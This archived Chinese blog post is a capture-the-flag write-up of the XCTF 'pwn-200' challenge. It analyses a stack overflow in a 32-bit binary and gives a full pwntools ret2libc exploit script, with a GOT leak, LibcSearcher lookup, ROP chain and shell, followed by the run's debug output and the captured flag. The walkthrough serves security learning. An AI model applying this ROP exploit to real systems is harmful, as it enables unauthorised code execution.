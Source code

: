 <!--yml
category: 未分类
date: 2022-04-26 14:40:23
-->

# pwn200 [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列21_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103706462](https://blog.csdn.net/fastergohome/article/details/103706462)

题目地址：[pwn-200](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4847&page=1)

不知不觉已经到了高级进阶区的第十题了，攻防世界设计的学习过程，确实降低了学习曲线的陡峭程度。

废话不说，看看题目先

![](img/ab1c4c894adc8ef261161b942b4ec66c.png)看一下难度星级陡然提升到5颗星，心里是不是有点懵逼！哈哈

先看看保护机制：

```
[*] '/ctf/work/python/pwn200/9c6084f8a3b2473e8a9e9815099bfec5'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

基本没开，只有NX。那就是说可以进行栈溢出。

c语言代码直接贴出来，非常简单

```
int __cdecl main()
{
  int buf; // [esp+2Ch] [ebp-6Ch]
  int v2; // [esp+30h] [ebp-68h]
  int v3; // [esp+34h] [ebp-64h]
  int v4; // [esp+38h] [ebp-60h]
  int v5; // [esp+3Ch] [ebp-5Ch]
  int v6; // [esp+40h] [ebp-58h]
  int v7; // [esp+44h] [ebp-54h]

  buf = 1668048215;
  v2 = 543518063;
  v3 = 1478520692;
  v4 = 1179927364;
  v5 = 892416050;
  v6 = 663934;
  memset(&v7, 0, 0x4Cu);
  setbuf(stdout, (char *)&buf);
  write(1, &buf, strlen((const char *)&buf));
  read_string();
  return 0;
}

ssize_t read_string()
{
  char buf; // [esp+1Ch] [ebp-6Ch]

  setbuf(stdin, &buf);
  return read(0, &buf, 0x100u);
}
```

那一堆v2，v3，看看汇编就知道了，其实就是一个字符串分割成多个变量而已

```
.text:080484CC                 mov     dword ptr [esp+2Ch], 'cleW'
.text:080484D4                 mov     dword ptr [esp+30h], ' emo'
.text:080484DC                 mov     dword ptr [esp+34h], 'X ot'
.text:080484E4                 mov     dword ptr [esp+38h], 'FTCD'
.text:080484EC                 mov     dword ptr [esp+3Ch], '5102'
.text:080484F4                 mov     dword ptr [esp+40h], '\n!~'
```

翻译一下就是

```
char buf[24] = "Welcome to XDCTF2015~!\n";
```

代码变成下面这个样子，一共十几行：

```
int __cdecl main()
{
  char szbuf[24] = "Welcome to XDCTF2015~!\n";

  memset(&v7, 0, 0x4Cu);
  setbuf(stdout, (char *)szbuf);
  write(1, szbuf, strlen((const char *)szbuf));
  read_string();
  return 0;
}

ssize_t read_string()
{
  char buf; // [esp+1Ch] [ebp-6Ch]

  setbuf(stdin, &buf);
  return read(0, &buf, 0x100u);
}
```

所以漏洞位置非常明显，就是在上面read_string函数中的read函数溢出。

检查了一下整个程序，有两个问题：

1.  没有system和/bin/sh
2.  程序没有做循环输入

 根据上面的分析我们制定了破解步骤：

1.  泄露write的got函数
2.  利用LibcSearcher定位system函数地址（这里也可以用pwn模块提供的DynELF来定位system函数）
3.  然后下面有两种方案：
    1.  直接利用LibcSearcher定位/bin/sh地址
    2.  利用bss地址写入/bin/sh
4.  利用system和/bin/sh执行

 具体的python脚本如下，两种方案都写在里面了，大家可以自行多测试一下

```
#coding:utf8
#!python
#!/usr/bin/env python

from pwn import *

context.log_level = 'debug'
process_name = './9c6084f8a3b2473e8a9e9815099bfec5'
# p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
p = remote('111.198.29.45', 47643)
elf = ELF(process_name)

def send_payload(payload):
	payload = 'A'*(0x6C+4) + payload
	p.sendlineafter('Welcome to XDCTF2015~!\n', payload)

main_addr = 0x080483D0
write_plt = elf.plt['write']
write_got = elf.got["write"]

payload = p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(4)
send_payload(payload)
write_addr = u32(p.recvn(4))
log.info("write_addr => %#x", write_addr)

from LibcSearcher import *
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
log.info("system_addr => %#x", system_addr)
log.info("binsh_addr => %#x", binsh_addr)

select = 1
if select == 1:
	#方案1
	payload = p32(system_addr) + p32(main_addr) + p32(binsh_addr)
else:
	#方案2
	read_plt = elf.plt['read']
	pop3_ret = 0x0804856c
	bss_addr = elf.bss()
	payload = p32(read_plt) + p32(pop3_ret) + p32(0) + p32(bss_addr) + p32(8)
	payload += p32(system_addr) + p32(main_addr) + p32(bss_addr)
	payload += '/bin/sh\x00'

send_payload(payload)

p.interactive()
```

执行结果如下：

```
root@mypwn:/ctf/work/python/pwn200# python pwn200.py 
[+] Opening connection to 111.198.29.45 on port 47643: Done
[DEBUG] PLT 0x8048380 setbuf
[DEBUG] PLT 0x8048390 read
[DEBUG] PLT 0x80483a0 __gmon_start__
[DEBUG] PLT 0x80483b0 __libc_start_main
[DEBUG] PLT 0x80483c0 write
[*] '/ctf/work/python/pwn200/9c6084f8a3b2473e8a9e9815099bfec5'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[DEBUG] Received 0x17 bytes:
    'Welcome to XDCTF2015~!\n'
[DEBUG] Sent 0x85 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  c0 83 04 08  d0 83 04 08  01 00 00 00  10 a0 04 08  │····│····│····│····│
    00000080  04 00 00 00  0a                                     │····│·│
    00000085
[DEBUG] Received 0x4 bytes:
    00000000  c0 03 6e f7                                         │··n·││
    00000004
[*] write_addr => 0xf76e03c0
[+] ubuntu-xenial-amd64-libc6-i386 (id libc6-i386_2.23-0ubuntu10_amd64) be choosed.
[*] system_addr => 0xf7646940
[*] binsh_addr => 0xf776502b
[DEBUG] Received 0x17 bytes:
    'Welcome to XDCTF2015~!\n'
[DEBUG] Sent 0x99 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  90 83 04 08  6c 85 04 08  00 00 00 00  20 a0 04 08  │····│l···│····│ ···│
    00000080  08 00 00 00  40 69 64 f7  d0 83 04 08  20 a0 04 08  │····│@id·│····│ ···│
    00000090  2f 62 69 6e  2f 73 68 00  0a                        │/bin│/sh·│·│
    00000099
[*] Switching to interactive mode
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x2d bytes:
    'cyberpeace{c42b3413305b0cae04a8aca4524a68d9}\n'
cyberpeace{c42b3413305b0cae04a8aca4524a68d9}
[DEBUG] Received 0x17 bytes:
    'Welcome to XDCTF2015~!\n'
Welcome to XDCTF2015~!
[*] Got EOF while reading in interactive
$ 
```

执行成功。Nice！

这个题目需要学习的知识点是：

1.  利用LibcSearcher定位system函数地址
2.  用pwn模块提供的DynELF来定位system函数
3.  rop chain的构造
4.  理解3连pop在栈中的执行情况，以及为什么要使用3连pop
5.  理解为什么用bss地址的方案，退出sh后主程序不能保持运行

欢迎各位同学👩‍🎓👨‍🎓一同交流，以上知识点不会的可以与我联系。